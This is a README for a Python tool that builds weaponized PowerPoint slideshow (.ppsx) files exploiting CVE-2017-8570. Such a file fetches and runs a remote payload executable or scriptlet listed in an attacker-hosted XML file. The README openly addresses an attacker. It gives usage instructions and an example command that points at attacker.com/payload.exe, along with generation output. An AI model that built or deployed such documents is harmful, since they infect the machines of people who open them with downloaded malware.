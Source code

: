 # Introduction
By Temesgen Yibeltal temu1yibeltal@gmail.com (Based on code by https://github.com/bhdresh/CVE-2017-8570 (now removed))

ppsx-file-generator is a python tool that generates a power point slide show file that executes code from a remote source based on an existing file.

# What does it do?

The tool generates a power point slide show file and an xml file based using the input provided. The power point file accesses the xml file which holds information of the payload file. An attacker could serve the xml file and the payload on a local or public server and provide the url for each as input.

# Getting the code

First, get the code:
```
git clone https://github.com/temesgeny/ppsx-file-generator.git
```

ppsx-file-generator is written in Python and requires zipfile which can be installed using Pip:
```
pip install zipfile
```
Requires Microsoft Office Power Point to  carry out this task.

# Usage
First open Microsoft Office Power Point and open 'template.ppsx'. Open your own presentation file and copy the icon 'Coder.exe' from template.ppsx to slide 1 of your power point file. Save the file as Power Point Show (.ppsx). Then use the python tool as

        Usage: generate_ppsx.py input_filename -o output_filename -p payload_uri -x xml_uri

        input_filename          The input ppsx file name.

        -o              Output .ppsx file name, (inlcude the .ppsx).
        -p              The payload exe or sct file url. 
                        It must be in an accessible web server. (Optional for xml file)
        -x              The full xml uri to be called by the ppsx file. 
                        It must be in an accessible web server.(Required)

```
python generate_ppsx.py -o output.ppsx -p http://attacker.com/payload.exe -x http://attacker.com/content.xml input.ppsx
Generated content.xml successfully
Generated output.ppsx successfully
```

